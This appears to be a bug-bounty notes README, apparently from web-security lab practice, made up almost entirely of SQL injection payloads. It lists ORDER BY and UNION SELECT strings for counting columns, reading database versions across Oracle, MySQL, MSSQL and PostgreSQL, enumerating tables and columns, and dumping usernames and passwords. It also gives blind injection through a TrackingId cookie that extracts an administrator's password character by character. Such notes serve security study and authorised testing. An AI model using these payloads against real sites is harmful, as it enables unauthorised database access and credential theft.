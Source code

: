 # Bug-Bounty
This is all about web &amp; bugbounty
<h1>SQLI</h1>
<pre>(1) Determine the number of columns =>
   i)  ' order by 3 -- 
   ii) 'order by 3# 


(2) Determine the data types of the columns =>  
   i) ' UNION SELECT 'a', 'a' from DUAL-- -> here is a built-in table on Oracle called dual which can be used for this purpose
   ii) ' UNION SELECT 'a', 'a'#


(3) Output the version of the database => 
  i) ' UNION SELECT banner, NULL from v$version-- (Oracle) --> The banner displays the database release and version number AND The version information is stored in a table called v$version.
  ii) ' UNION SELECT @@version, NULL# (Microsoft ,MySql)
  iii)' UNION SELECT version(), NULL-- (postgresql)
  
(4) Output the list of table names in the database (postgresql)

   i) ' UNION SELECT table_name, NULL FROM information_schema.tables--
 
(5) Output the column names of the table (postgresql)

    i) ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'--
    
(6) Output the usernames and passwords

    i) ' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
    ii) ' UNION SELECT NULL,username||'~'||password FROM users--(for retrieving multiple values in a single column)



7)Blind SQl->

   i)Modify the TrackingId cookie, changing it to:
     TrackingId=xyz' AND '1'='1
   ii)TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
   iii)'and (select 'a' from users where username ='administrator')='a'--
   iV)'and (select 'a' from users where username ='administrator' AND            
      LENGTH(password)>1)='a'--
   v)' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='q'--
</pre>
